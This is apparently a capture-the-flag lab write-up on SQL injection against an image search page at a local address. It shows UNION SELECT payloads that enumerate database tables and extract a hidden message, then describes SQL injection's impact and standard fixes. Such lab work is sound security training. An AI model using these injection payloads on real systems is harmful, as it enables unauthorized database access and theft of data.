 # SQL INJECTION

## IDENTIFY THE VULNERABILITY

The image search page, accessible at http://192.168.56.2/?page=searchimg, features another search-by-id functionality that appears susceptible to SQL injection.

## EXPLOIT THE VULNERABILITY

A simple input like **1 or 1=1** provides a list of images, with the 5th image catching our interest.
The following query revealed details about tables and columns in the database :

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Focusing on the "images" keyword, we identified the table "list_images" and the 4 columns : 'id', 'url', 'title', and 'comment'.

The "list_images" table looks like this :

| ID  | Title   | Url         |
| --- | ------- | ----------- |
| 1   | id      | list_images |
| 1   | url     | list_images |
| 1   | title   | list_images |
| 1   | comment | list_images |

We then used the query :

```sql
5 UNION SELECT title, comment FROM list_images WHERE id=5
```

and found this message :

> Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

We successfully retrieved the flag by decoding and re-encoding the hash using tools like CrackStation and CyberChef, or via the command echo -n albatroz | sha256sum.

## INFORMATION ON SQL INJECTION

SQL injection is a malicious technique that enables an attacker to manipulate or interfere with the SQL queries executed by an application to its associated database. This vulnerability can have severe consequences, **granting unauthorized access to, and control over, the database**. An attacker exploiting SQL injection may gain the ability to **read, modify, or delete sensitive data stored in the database**. This could potentially include compromising users' personal information, accessing email addresses, and obtaining passwords. The impact of SQL injection extends beyond mere unauthorized data access, as it poses a substantial threat to the confidentiality, integrity, and availability of the entire database.

## PATCH THE VULNERABILITY

To reduce the risks associated with SQL injection attacks, consider implementing the following security measures:

1. Input Validation and Parameterized Statements:

  - Validate and sanitize all user inputs on the server side.
  - Use parameterized statements (prepared statements) in SQL queries to separate user input from SQL code.

2. Stored Procedures:
    
  Utilize stored procedures to encapsulate and execute SQL queries. This adds an additional layer of security by limiting direct access to the database.

3. Least Privilege Principle:
  
  Ensure that database accounts used by your application have the least privilege necessary to perform their tasks. Avoid using accounts with unnecessary permissions.

4. Whitelisting:

  Implement input whitelisting, allowing only predefined, safe characters or patterns. This helps prevent the injection of malicious SQL code.

5. ORMs and Parameterized Queries:

  If using Object-Relational Mapping (ORM) frameworks, make sure they generate parameterized queries to prevent SQL injection vulnerabilities.

6. Error Handling:

  Implement proper error handling to avoid exposing sensitive information in error messages. Provide generic error messages to users and log detailed errors for administrators.

7. Web Application Firewalls (WAFs):

  Use Web Application Firewalls to filter and monitor HTTP traffic between a web application and the Internet. WAFs can help detect and prevent SQL injection attacks.

## SOURCES

https://portswigger.net/web-security/sql-injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
